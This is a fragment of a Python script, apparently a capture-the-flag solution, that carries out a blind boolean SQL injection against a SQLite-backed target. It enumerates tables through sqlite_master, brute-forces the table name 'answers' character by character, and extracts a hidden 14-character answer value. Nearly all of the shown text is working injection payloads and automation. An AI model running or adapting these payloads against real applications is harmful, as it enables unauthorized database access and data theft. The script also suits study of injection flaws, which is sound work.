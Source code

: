 ``` python
#	print(i + " => " + str(res))
	return res

#Query Test Area
#p_inject("' OR 1=1 and (SELECT answer FROM answers) --")
#p_inject("' OR 1=1 AND (SELECT count(*) FROM answers) = "+str(1)+" --")
#quit()

# Check number of tables in database
for i in range(5):  # ==> only 1 table
	p_inject("' OR 1=1 AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = " + str(i) + " --")
# shorter query but less specific:
# "' OR 1=1 AND (SELECT count(tbl_name) FROM sqlite_master) = " + str(i) + " --"

# Check number of characters in table name
for i in range(10):  # ==> table name length == 7
	p_inject("' OR 1=1 AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0) = "+str(i)+" --")
# shorter query but less specific:
# "' OR 1=1 AND (SELECT count(tbl_name) FROM sqlite_master) = " + str(i) + " --"

# Brute-force table name
tableName = ""
for i in range(7):  # Table name: answers
	for c in string.printable:
		r = p_inject("' OR 1=1 and (SELECT hex(substr(tbl_name," + str(i+1) +",1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('"+str(c)+"') --")
		if r:
			tableName += c
			break
print("Table name: " + str(tableName))

# Check number of columns in table
for i in range(10): # answers has 1 column
	p_inject("' OR 1=1 AND (SELECT 1 FROM answers ORDER BY "+str(i)+") --")

# Check number of records in column
for i in range(10): # answers has 1 record
    p_inject("' OR 1=1 AND (SELECT count(*) FROM answers ) = "+str(i)+" --")

# Check column name
p_inject("' OR 1=1 and (SELECT answer FROM answers) --")
#  alternative: p_inject("' OR 1=1 AND (SELECT 1 FROM answers ORDER BY answer) --")

# Determine length of record
for i in range(20):  # ==> Length of answer is 14
    p_inject("' OR 1=1 AND (SELECT length(answer) FROM answers) = "+str(i)+" --")

answer = ""
for i in range(14):
	for c in string.printable:
		r = p_inject("' OR 1=1 AND (SELECT hex(substr(answer,"+str(i+1)+",1)) FROM answers) = hex('"+str(c)+"') --")
		if r:
			answer += c
			break
print("Answer: "+str(answer))
```
